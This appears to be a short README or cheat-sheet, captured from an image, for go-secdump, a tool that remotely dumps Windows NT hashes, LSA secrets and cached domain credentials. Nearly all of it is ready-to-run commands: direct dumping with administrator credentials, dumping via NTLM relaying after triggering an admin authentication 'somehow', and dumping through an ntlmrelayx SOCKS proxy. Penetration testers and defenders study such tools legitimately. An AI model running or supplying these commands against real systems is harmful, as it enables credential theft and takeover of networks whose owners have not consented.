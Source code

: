 # Go-secdump

## Github repo: https://github.com/jfjallid/go-secdump

## Dump NT Hashes from SAM, LSA Secrets and Domain Cached Credentials remotely

## Requirements: Read permissions on SAM and SECURITY hives (usually only NT AUTHORITY\SYSTEM has these permissions) and/or local group administrators have WriteDACL on the registry hives.

### Usage:

    ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local

### or

    ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam --lsa --dcc2

    ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam (Dump only SAM)

    ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --lsa (Dump only LSA)

    ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --dcc2 (Dump only DCC2 cache secrets)

# Dump secrets via NTLM Relaying

#### 1) 

    ./go-secdump --host 192.168.0.100 -n --relay (Dump registry secrets using NTLM relaying)

### then

#### 2) Trigger an authentication with administrative access to 192.168.0.100 somehow, then wait for the dumped secrets

# Dump secrets via SOCKS Proxy

#### 1) 

    ./ntlmrelayx.py -socks -t 192.168.0.100 -smb2support --no-http-server --no-wcf-server --no-raw-server

#### 2) 

    ./go-secdump --host 192.168.0.100 --user Administrator -n --socks-host 127.0.0.1 --socks-port 1080

